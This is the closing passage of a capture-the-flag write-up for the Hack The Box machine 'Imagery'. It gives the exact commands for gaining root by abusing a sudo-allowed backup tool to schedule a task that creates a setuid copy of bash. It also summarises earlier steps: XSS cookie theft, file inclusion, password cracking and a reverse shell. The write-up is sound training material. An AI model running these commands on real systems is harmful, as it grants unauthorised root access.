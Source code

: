 We execute the command `charcol` and check what it does:
```bash
sudo /usr/local/bin/charcol
```

We see is a tool to backup and restore encrypted files. 

We can change the password with `-R` option (this is needed to use the command):
```bash
sudo /usr/local/bin/charcol -R
```

Then, we can add a new scheduled task to run a command as root which allows us to escalate our privileges to root:
```bash
sudo /usr/local/bin/charcol auto add --schedule "* * * * *" --command "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" --name  "privesc"
```

We wait for a minute and then we can use the new bash binary to get a root shell:
```bash
/tmp/bash -p
whoami
```
```
root
```

We check the root flag:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion

We have successfully exploited the machine `Imagery` from Hack The Box. We started by enumerating the open ports and services using Nmap. We found a web application running on port 8000 which we exploited using XSS to steal a session cookie and LFI to read sensitive files. We cracked user passwords using hashcat and gained access to the web application as a test user. We then exploited an image transformation feature to get a reverse shell as the `web` user. Finally, we escalated our privileges to root using a misconfigured sudo command.